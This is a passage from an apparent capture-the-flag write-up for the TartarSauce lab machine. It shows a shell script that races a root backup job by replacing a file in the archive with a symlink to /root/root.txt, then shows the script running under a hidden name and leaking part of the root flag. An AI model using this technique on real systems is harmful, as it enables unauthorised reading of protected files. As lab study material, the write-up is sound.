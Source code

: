    # remove robots.txt and replace it with link to root.txt
    rm var/www.md/robots.txt
    ln -s /root/root.txt var/www.md/robots.txt

    # remove old archive
    rm $fn

    # create new archive
    tar czf $fn var

    # put it back, and clean up
    mv $fn $cur
    rm $fn
    rm -rf var

    # wait for results
    echo "Waiting for new logs..."
    tail -f /var/backups/onuma_backup_error.txt



Now, upload this to target and run it. I'll name it `.b.sh` for opsec:



    onuma@TartarSauce:/dev/shm$ ./.b.sh
    ./.b.sh
    Waiting for archive filename to change...
    File changed... copying here
    Waiting for new logs...
    ------------------------------------------------------------------------
    Integrity Check Error in backup last ran :  Thu Oct 18 19:42:26 EDT 2018
    ------------------------------------------------------------------------
    /var/tmp/.02af91fa0edeab13fce3962cddc45efefc22da67
    diff -r /var/www.md/robots.txt /var/tmp/check/var/www.md/robots.txt
    1,7c1
    < User-agent: *
    < Disallow: /webservices/tar/tar/source/
    < Disallow: /webservices/monstra-3.0.4/
    < Disallow: /webservices/easy-file-uploader/
    < Disallow: /webservices/developmental/
    < Disallow: /webservices/phpmyadmin/
    <
    ---
    > e79abdab...


